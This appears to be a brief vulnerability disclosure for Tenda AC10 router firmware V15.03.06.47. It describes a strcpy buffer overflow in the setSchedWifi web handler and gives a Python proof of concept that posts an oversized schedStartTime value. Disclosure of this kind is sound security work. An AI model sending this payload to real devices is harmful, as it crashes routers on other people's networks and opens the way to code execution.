 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/setSchedWifi

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](4.png)

get value from schedStartTime ,and set enable = schedWifiEnable = 0

![](3.png)

as follow we set, get into line 73, call strcpy, cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/setSchedWifi"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'schedStartTime': payload, 'schedWifiEnable': 0})
``` 
